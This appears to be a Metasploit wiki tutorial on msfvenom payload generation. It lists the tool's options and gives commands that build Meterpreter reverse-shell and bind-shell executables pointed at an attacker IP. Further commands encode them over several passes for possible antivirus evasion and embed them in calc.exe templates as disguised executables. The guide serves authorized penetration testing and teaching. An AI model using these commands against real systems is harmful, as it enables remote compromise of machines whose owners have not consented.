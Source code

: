 # 🔥 How to Use msfvenom For Metasploit Payload

Tod Beardsley edited this page on Sep 14, 2016 · 20 revisions
Msfvenom is the combination of payload generation and encoding. It replaced msfpayload and msfencode on June 8th 2015.

To start using msfvenom, first please take a look at the options it supports:

    Options:
    -p, --payload       <payload>    Payload to use. Specify a '-' or stdin to use custom payloads
        --payload-options            List the payload's standard options
    -l, --list          [type]       List a module type. Options are: payloads, encoders, nops, all
    -n, --nopsled       <length>     Prepend a nopsled of [length] size on to the payload
    -f, --format        <format>     Output format (use --help-formats for a list)
        --help-formats               List available formats
    -e, --encoder       <encoder>    The encoder to use
    -a, --arch          <arch>       The architecture to use
        --platform      <platform>   The platform of the payload
        --help-platforms             List available platforms
    -s, --space         <length>     The maximum size of the resulting payload
        --encoder-space <length>     The maximum size of the encoded payload (defaults to the -s value)
    -b, --bad-chars     <list>       The list of characters to avoid example: '\x00\xff'
    -i, --iterations    <count>      The number of times to encode the payload
    -c, --add-code      <path>       Specify an additional win32 shellcode file to include
    -x, --template      <path>       Specify a custom executable file to use as a template
    -k, --keep                       Preserve the template behavior and inject the payload as a new thread
    -o, --out           <path>       Save the payload
    -v, --var-name      <name>       Specify a custom variable name to use for certain output formats
        --smallest                   Generate the smallest possible payload
    -h, --help                       Show this message
### 👁️ How to generate a payload
To generate a payload, there are two flags that you must supply (-p and -f):

The -p flag: Specifies what payload to generate
To see what payloads are available from Framework, you can do:

    ./msfvenom -l payloads
The -p flag also supports "-" as a way to accept a custom payload:

    cat payload_file.bin | ./msfvenom -p - -a x86 --platform win -e x86/shikata_ga_nai -f raw
The -f flag: Specifies the format of the payload
Syntax example:

    ./msfvenom -p windows/meterpreter/bind_tcp -f exe
To see what formats are supported, you can do the following to find out:

    ./msfvenom --help-formats
Typically, this is probably how you will use msfvenom:

     $ ./msfvenom -p windows/meterpreter/reverse_tcp lhost=[Attacker's IP] lport=4444 -f exe -o /tmp/my_payload.exe
### 👀 How to encode a payload
By default, the encoding feature will automatically kick in when you use the -b flag (the badchar flag). In other cases, you must use the -e flag like the following:

      ./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -f raw
To find out what encoders you can use, you can use the -l flag:

    ./msfvenom -l encoders
You can also encode the payload multiple times using the -i flag. Sometimes more iterations may help avoiding antivirus, but know that encoding isn't really meant to be used a real AV evasion solution:

    ./msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3 
How to avoid bad characters
The -b flag is meant to be used to avoid certain characters in the payload. When this option is used, msfvenom will automatically find a suitable encoder to encode the payload:

    ./msfvenom -p windows/meterpreter/bind_tcp -b '\x00' -f raw
### 🐡 How to supply a custom template
By default, msfvenom uses templates from the msf/data/templates directory. If you'd like to choose your own, you can use the -x flag like the following:

      ./msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe 
👀 Please note: If you'd like to create a x64 payload with a custom x64 custom template for Windows, then instead of the exe format, you should use exe-only:

      ./msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/fake_64_calc.exe
The -x flag is often paired with the -k flag, which allows you to run your payload as a new thread from the template. However, this currently is only reliable for older Windows machines such as x86 Windows XP.

### 🛰️ How to chain msfvenom output
The old msfpayload and msfencode utilities were often chained together in order layer on multiple encodings. This is possible using msfvenom as well:

    ./msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.3 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 | \
    ./msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
    ./msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
